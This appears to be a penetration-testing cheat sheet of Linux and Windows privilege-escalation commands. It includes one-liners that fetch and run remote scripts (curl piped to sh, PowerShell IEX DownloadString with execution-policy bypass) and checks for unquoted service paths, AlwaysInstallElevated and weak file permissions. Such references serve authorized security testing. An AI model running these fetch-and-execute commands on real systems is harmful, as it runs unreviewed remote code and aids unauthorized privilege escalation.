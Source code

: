 ### Run LinEnum Script
Download and execute LinEnum for automated enumeration.
```bash
curl -L https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | sh
```

### Run unix-privesc-check
Download and run unix-privesc-check for detailed privilege escalation checks.
```bash
wget https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/unix-privesc-check && chmod +x unix-privesc-check && ./unix-privesc-check detailed
```

# Windows Privilege Escalation

### Run PowerUp
Execute PowerUp script for Windows privilege escalation checks.
```powershell
powershell -exec bypass -command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"
```

### Run WinPEAS
Execute WinPEAS script for Windows privilege escalation checks.
```powershell
powershell -exec bypass -command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1'); Invoke-WinPEAS"
```

### Check for Unquoted Service Paths
Identify services with unquoted paths that start automatically.
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\"\"\""
```

### Check AlwaysInstallElevated Registry Key
Check if AlwaysInstallElevated policy is enabled.
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Check for Weak File Permissions in Program Files
Find files in Program Files directories with "Everyone" full control.
```cmd
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```

# Active Directory Enumeration
